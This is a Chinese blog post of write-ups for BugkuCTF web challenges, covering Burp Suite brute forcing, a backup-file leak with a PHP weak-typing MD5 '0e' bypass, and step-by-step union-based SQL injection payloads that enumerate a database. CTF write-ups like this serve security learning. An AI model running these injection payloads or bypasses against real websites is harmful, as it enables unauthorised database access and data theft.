










<!--yml
category: 未分类
date: 2022-04-26 14:29:59
-->

# BugkuCTF-WEB部分题解（二）_flying_bird2019的博客-CSDN博客

> 来源：[https://blog.csdn.net/flying_bird2019/article/details/104709613](https://blog.csdn.net/flying_bird2019/article/details/104709613)

# 输入密码得到flag

这道题直接**暴力破解**
在使用**Burp Suite**时候设置完**Number range** 开始爆破出现错误**Invalid number settings**
百度得以下解决方法

解决问题后爆破得**flag**

# 备份是个好习惯

御剑扫描网站发现**index.php.bak**(后缀为.bak为备份文件)
访问** /index.php.bak **下载文件打开

## 审计代码

## 分析

1.根据代码原页面输出的是变量key1和key2 MD5后的值
2.绕过str_replace(‘key’,$str) 变量名可取‘kkeyey1’和’kkeyey2’
3.判断需借助**php弱类型**进行**MD5碰撞**

(两个变量的值MD5后均为0E开头，php处理进行弱类型比较得0=0，结果为真)

更多关于[MD5碰撞](https://www.cnblogs.com/0yst3r-2046/p/10748412.html)
**以上分析部分借鉴大佬[题解](https://www.cnblogs.com/0yst3r-2046/p/10748459.html)**

# 成绩单（SQL注入）

随便输入一个参数

猜测应该是按表的索引查询（select …where id=’’）
尝试联合注入
id = ’ union select 1,2,3,4# //2，3，4有返回
注入
id = ’ union select 1,2,3,database()# //得到数据库名skctf_flag

接下来获取该数据库中的表
id = ’ union select 1,2,3,group_concat(table_name) from information_schema.tables where table_schema=database()# //得到两个表fl4g和sc

接下来获取fl4g表中的字段名
id = ’ union select 1,2,3,group_concat(column_name) from information_schema.columns where table_name=‘fl4g’# //敏感表名应加’ '否则应将其编码为十六进制(0x666c3467)绕过，得到字段skctf_flag

获取字段中的值
id = ’ union select 1,2,3,skctf_flag from fl4g# //得到flag

方法二 使用sqlmap [详情](https://blog.csdn.net/xuchen16/article/details/82785371)

# 秋名山老司机

题目要求在两秒内post返回算数的值
使用python模拟登录网站算出结果post返回
写一个python脚本

得到flag (可能不会一次性返回成功，需要尝试多次)

# 速度要快

在响应头里发现了：

据其他的writeup所说该flag为变化的
用python脚本模拟登录获取响应头的flag，base64解码后post提交

关于byte类型与str类型 见[详情](https://www.cnblogs.com/chownjy/p/6625299.html)